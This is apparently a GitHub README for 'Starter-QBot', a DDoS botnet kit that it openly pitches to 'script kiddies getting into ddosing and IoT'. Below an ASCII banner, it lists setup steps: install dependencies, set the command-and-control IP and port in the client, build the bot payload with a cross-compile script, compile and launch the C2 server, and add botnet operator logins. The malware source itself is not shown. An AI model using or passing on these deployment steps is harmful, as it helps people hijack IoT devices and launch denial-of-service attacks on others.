# Starter-QBot
This is a starter Qbot for a script kiddies getting into ddosing and Iot.

<pre><code> _____ _____     _      _____     _   
|     | __  |___| |_   |_   _|_ _| |_ 
|  |  | __ -| . |  _|    | | | | |  _|
|__  _|_____|___|_|      |_| |___|_|  
   |__|                               by D3fe4ted

1. yum install python python-paramiko screen gcc nano perl perl-CPAN
2. go to client and change (ip) and (port)
3. python2 cc7.py client.c (ip)
4. Save your payload
5. gcc server.c -o server -pthread
7. nano login.txt (username password role mm/dd/yy)
8. screen ./server (port) 1000 (port)</pre></code>
